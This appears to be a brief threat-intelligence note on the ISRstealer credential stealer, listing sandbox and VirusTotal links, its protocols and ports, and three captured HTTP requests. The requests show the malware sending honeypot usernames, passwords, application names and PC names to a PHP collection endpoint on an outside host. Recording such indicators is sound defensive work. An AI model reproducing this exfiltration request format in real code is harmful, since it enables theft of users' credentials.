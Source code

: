 # ISRstealer

# Links:
https://app.any.run/tasks/7cd0c35f-7392-4a84-a398-4d8db44b4b97/
https://www.virustotal.com/gui/file/d646d2c6a4c858ec4da8051892f8d465615aec0c9f0834a6ed1934cb039f7cf0/detection

# Protocols:
HTTP
DNS

# Ports:
80
53

# Sample:

```
GET /materi/vfrt/PHP/index.php?action=add&username=honey@pot.com&password=honeypass356&app=Chrome&pcname=USER-PC&sitename=https://m.facebook.com/ HTTP/1.1
User-Agent: HardCore Software For : Public
Host: smkamsir1parepare.sch.id

GET /materi/vfrt/PHP/index.php?action=add&username=honey@pot.com&password=honeypass356&app=Chrome&pcname=USER-PC&sitename=https://m.facebook.com/ HTTP/1.1
User-Agent: HardCore Software For : Public
Host: smkamsir1parepare.sch.id

GET /materi/vfrt/PHP/index.php?action=add&username=honey@pot.com&password=honeypass356&app=MS%20Outlook%202002/2003/2007&pcname=USER-PC&sitename=192.168.1.1 HTTP/1.1
User-Agent: HardCore Software For : Public
Host: smkamsir1parepare.sch.id
```
